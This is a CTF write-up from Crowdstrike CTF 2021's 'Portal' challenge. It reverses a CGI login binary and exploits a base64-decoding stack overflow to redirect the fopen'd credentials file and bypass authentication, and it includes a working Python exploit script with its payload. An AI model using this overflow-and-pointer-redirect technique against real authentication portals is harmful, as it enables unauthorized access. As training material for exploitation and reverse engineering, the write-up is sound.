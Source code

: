 ```yaml
---
layout: post
title: Crowdstrike CTF 2021 - Portal
author: hugsy
tags: [Protective Penguin,pwn,re,elf64,]
date: 2021-01-29 19:43
---
```


* Competition: [Crowdstrike CTF](https://adversary.zone/challenges)
* Challenge Name: Portal
* Points: 1 pts
* Description:
> PROTECTIVE PENGUIN gained access to one of their victims through the victim's extranet authentication portals and we were asked to investigate.
> Please download the Portal Code and see whether you can reproduce their means of initial access vector. We stood up a test instance of the authentication portal for you to validate against.

The target for this challenge is located at https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi. By opening the Qemu image we can get retrieve the ELF64 file: `cgi-bin/portal.cgi`. That "portal" is fairly basic, only asking for credentials.

# Reversing the binary

The binary was quickly identified:

```bash
$ file cgi-bin/portal.cgi
cgi-bin/portal.cgi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=aead4fc5b1de633c95bfc8076a8338c9f64c3125, for GNU/Linux 3.2.0, stripped
$ checksec cgi-bin/portal.cgi
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

First, we determined the logic of the binary: it is a ELF64 CGI that is spawned via `python3 -m http.server --cgi`. This has several implications: CGIs are forked and execv-ed so this rules out any kind of stack canary bruteforce (if any canary attack was needed), and also relying on static libc addresses. But the binary base itself will be static.

Moving on to reversing: the `main` function quickly shows that the binary gets the `user` and `pass` from the input formatted in JSON. Also it shows that if the `auth` function is successful (i.e. returns 0), the flag is simply given to us:

![img](https://i.imgur.com/XBOlhQe.png)

Here is the core of the `auth` function
![img](https://i.imgur.com/tjyzEAQ.png)

Its logic is:

1. Read HTTP POST `user` and `pass` as `application/json`
2. Both parameters must be base64 encoded
3. Read expected string from "creds.txt".
4. Do `strcmp("given:credz","fromfile:credz")`
5. If returns 0, it just dumps the flag

After spending some time thinking of using a timing attack for exploitation, we re-read the binary disassembly to spot a stack overflow when the `auth` uses `__b64_pton` on a static stack buffer when extracting the credentials. We fully control the content being extracted. So here we go!

# Exploitation

Trigger the stack overflow is not hard, only providing an input big enough would suffice. For example this code:

```python
s = requests.Session()
u = b64(b"A"*372)
r = s.post("http://localhost:8000/cgi-bin/portal.cgi", json={"user": u, "pass": u})
print(r.text)
s.close()
```

would corrupt the stack, but also overwrite the canary triggering `__stack_chk_fail` and we don't like that much.
But booking closely at the stack layout, we realize something:

```
                     ^
|            |       |
--------------       |
|   pc       |       |
--------------       |
|  sfp       |       |
--------------       |
| canary     |       |
--------------       |
|  fname     |       |
--------------       |
|            |       |  stack direction
|            |       |
| controlled |       |
| buffer     |       |
|            |       |
|            |       |
```

We can control the value being passed to `fopen`! So we can use that argument to point to an address that will be `fopen` for comparison. By default, it obviously points to `creds.txt` (i.e. 0x402008). But if we could point it to a file we know that may contain `:` character, then we have all we need to pass the call to `strcmp`.

And one case struck out
```bash
$ strings cgi-bin/portal.cgi | rg /
/lib64/ld-linux-x86-64.so.2
```

Not quite sure if it was the intended solution, but it worked: we grepped`/lib64/ld-linux-x86-64.so.2` looking for `:` and we get some interesting stuff:

```bash
$ strings /lib64/ld-linux-x86-64.so.2 | rg ':'
[...]
FATAL: kernel too old
Unused direct dependencies:
        Version information:
        %s:
prelink checking: %s
wrong ELF class: ELFCLASS32
undefined symbol: %s%s%s
relocation processing: %s%s
calling init: %s
calling preinit: %s
[...]
```

We are free to pick any: so I picked `b"\tVersion information:"`. All is needed now is build the parameter with an `user` having the base64-encoded value of `b"\tVersion information"`, and `pass` with `\0` is enough.

```python
import os, sys, requests, time
from base64 import b64encode as b64
from pwn import *

TARGET="https://authportal.challenges.adversary.zone:8880/cgi-bin/portal.cgi"

def pwn():
    user_raw = b"\tVersion information"
    user = b64(user_raw)
    pwd_raw = b"\0"*(259-len(u_r))
    pwd = b64(pwd_raw + p64(0x4002a8) + b"A"*8) # 0x4002a8 is the address of /lib64/ld-linux-x86-64.so.2 in portal.cgi

    r = request.post(TARGET, json={"user": user, "pass": pwd})
    if len(r.text):
        print(r.text)
    return

if __name__ == "__main__":
    pwn()
```

And we get the flag printed out after a bunch of junk, showing `CS{w3b_vPn_h4xx}`.



